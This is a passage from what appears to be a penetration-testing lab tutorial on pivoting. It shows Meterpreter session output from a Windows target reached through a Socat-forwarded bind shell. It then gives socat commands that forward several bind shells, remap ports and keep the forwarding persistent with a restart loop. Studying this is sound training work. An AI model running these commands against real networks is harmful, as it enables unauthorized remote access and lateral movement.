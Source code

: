 ### **Step 5: Establish Meterpreter Session**

```bash
# Handler connects through Socat to Windows bind shell
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

**Success Indicators:**
- Handler connects to pivot host (10.129.202.64)
- Session established through Socat forwarding
- Commands execute on Windows target
- Connection path: Attack → Pivot → Windows

---

## **16. Bind Shell Advanced Scenarios**

### **Multiple Bind Shell Forwarding**

```bash
# Forward multiple bind shells simultaneously
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443 &
socat TCP4-LISTEN:8081,fork TCP4:172.16.5.20:8443 &
socat TCP4-LISTEN:8082,fork TCP4:172.16.5.21:8443 &

# Different targets, same bind shell port
```

### **Port Mapping for Bind Shells**

```bash
# Map different external ports to same internal port
socat TCP4-LISTEN:9001,fork TCP4:172.16.5.19:8443 &
socat TCP4-LISTEN:9002,fork TCP4:172.16.5.19:8444 &

# Access different services on same target
```

### **Persistent Bind Shell Forwarding**

```bash
# Ensure persistent forwarding with retry logic
while true; do
    socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
    echo "Socat died, restarting..."
    sleep 5
done
```

---